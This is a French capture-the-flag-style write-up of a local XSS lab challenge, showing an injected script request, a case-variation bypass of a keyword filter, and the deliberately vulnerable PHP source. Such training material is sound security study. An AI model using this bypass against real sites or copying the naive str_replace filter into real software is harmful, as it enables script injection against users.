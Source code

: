 # xss4

## Exploitation

Le quatrième challenge demande explicitement de tenter une injection en utilisant la balise `<script></script>` :&#x20;

![](<../../../.gitbook/assets/image (28).png>)

Une première protection que je rencontre est un contrôle du format de l'adresse email :&#x20;

![](<../../../.gitbook/assets/image (23).png>)

Un contournement en utilisant directement Burp est possible, mais ma payload ne semble pas fonctionner car le mot clé `script` est filtré :&#x20;

![](<../../../.gitbook/assets/image (29).png>)

```http
POST /xss4/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss4/

user_email=<script>alert(1)</script>&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2094
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="row">
  <p style="color:red;" class="well">
    <strong></strong><>alert(1)</> is not registered.
  </p>
</div>
```

Ici il doit s'agir d'une protection de type pattern matching, je tente de le contourner en modifiant ma façon d'écrire la balise Javascript, soit `<ScRiPT>alert(1)</sCRIpt>` :&#x20;

![](<../../../.gitbook/assets/image (16).png>)

## Analyse du code source

L'adresse email est récupéré dans la variable `$email`. Avant son affichage par la directive `echo`, un traitement est effectué par la méthode `xss_check_1()`. Cette méthode remplace le mot "script" par une chaîne de caractères vide mais sans faire attention à son format (minuscule, majuscule, répétition, etc) :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['user_email'])) {
    $email = $_POST['user_email'];
  }

  function xss_check_1($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("script", "", $data);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <p style="color:red;" class="well">
    <strong></strong><?php echo xss_check_1($email); ?> is not registered.
  </p>
</div>
```
